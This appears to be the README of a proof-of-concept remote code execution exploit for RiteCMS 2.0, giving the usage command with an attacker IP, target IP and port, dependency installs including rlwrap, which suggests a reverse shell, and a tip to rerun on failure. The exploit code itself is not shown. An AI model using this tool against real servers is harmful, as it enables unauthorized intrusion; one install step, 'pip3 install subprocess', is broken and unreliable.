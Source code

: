 # RiteCMS-2.0-Remote-Code-Execution
A Remote Code Execution PoC to exploit RiteCMS 2.0
```
python3 ritecms2.0-exploit.py -i <IP> -t <target-IP> -p <port>
```
### Install pip
```
pip3 install requests
pip3 install argparse
pip3 install subprocess
```
### Install rlwrap
```
sudo apt install rlwrap
```

## NOTE
If first run does not work, try to run again.
